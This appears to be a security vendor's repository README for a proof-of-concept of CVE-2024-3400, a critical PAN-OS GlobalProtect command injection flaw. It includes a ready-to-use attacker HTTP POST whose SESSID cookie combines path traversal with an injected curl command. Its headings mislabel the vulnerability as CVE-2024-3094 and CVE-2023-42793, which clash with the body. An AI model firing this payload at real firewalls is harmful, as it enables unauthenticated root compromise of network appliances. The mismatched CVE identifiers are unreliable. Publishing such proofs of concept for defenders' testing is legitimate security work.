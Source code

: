 # Palo Alto PAN-OS CVE-2024-3400 PoC Exploit
Palo Alto Networks disclosed a critical vulnerability affecting PAN-OS software used in security appliances like their next-generation firewalls. CVE-2024-3400 is a command injection vulnerability with a CVSS score of 10.0 (Critical). The vulnerability allows adversaries to execute commands in Palo Alto firewalls with root privileges remotely. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-3400 vulnerability.

Test security controls against the CVE-2024-3400 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-3400 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://www.picussecurity.com/emerging-threat-simulator?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 
If you are looking for more detailed information, check out our blog post: [CVE-2024-3400: Palo Alto PAN-OS Command Injection Vulnerability Explained](https://www.picussecurity.com/resource/blog/cve-2024-3400-palo-alto-pan-os-command-injection-vulnerability-explained)

CVE-2024-3094 Proof-of-concept (POC)
----------------------
CVE-2024-3400 is a command injection vulnerability found in the GlobalProtect feature of PAN-OS software. The telemetry functionality in the GlobalProtect uses the curl command to send logs from a temporary directory. Using malformed SESSID, adversaries were able to inject shell commands with root privileges via unauthenticated HTTP post requests. 

#### Example CVE-2023-42793 Exploit:
//Attacker-crafted POST request
```http
POST/ssl-vpn/hipreport.esp HTTP/1.1
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hello`curl{$IFS}example.com`;
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
